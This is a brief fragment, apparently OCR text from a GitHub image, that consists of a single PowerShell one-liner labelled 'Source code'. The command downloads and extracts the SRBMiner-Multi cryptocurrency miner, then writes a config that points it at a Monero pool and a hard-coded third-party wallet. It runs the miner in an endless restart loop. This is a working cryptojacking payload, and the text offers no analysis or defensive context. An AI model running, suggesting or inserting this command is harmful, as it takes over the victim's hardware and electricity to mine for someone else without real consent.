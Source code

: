 powershell -Command "$ErrorActionPreference='Stop';try{Invoke-WebRequest -Uri 'https://github.com/doktor83/SRBMiner-Multi/releases/download/2.9.4/SRBMiner-Multi-2-9-4-win64.zip' -OutFile 'srbminer.zip';Expand-Archive -Path 'srbminer.zip' -DestinationPath '.' -Force;$folder=Get-ChildItem -Directory|Where-Object{$_.Name-like'SRBMiner-Multi*'}|Select-Object -First 1;if(-not$folder){throw'Folder not found'};Set-Location$folder.FullName;\"@{\"algorithm\"=\"randomx\";\"pool\"=\"pool.supportxmr.com:443\";\"wallet\"=\"45WvRSeZuor9BbKMZF6s1VVvQriMjvScBbRLxoMTGe9c2J8Xnx4HySRHLLeTb8zf9944GD1uEmnpgUFFRHhJ7abSJXrmezb\";\"password\"=\"x\";\"worker\"=\"srb-cpu-gpu\";\"gpu_conf\"=\"auto\";\"tls\"=$true}\"|Out-File'start_config.json'-Encoding ascii;while($true){Start-Process'.\SRBMiner-MULTI.exe' -ArgumentList'--config start_config.json --logfile miner.log'-NoNewWindow -Wait;Start-Sleep -Seconds 10}}catch{Write-Host\"Error: $_\";exit 1}"
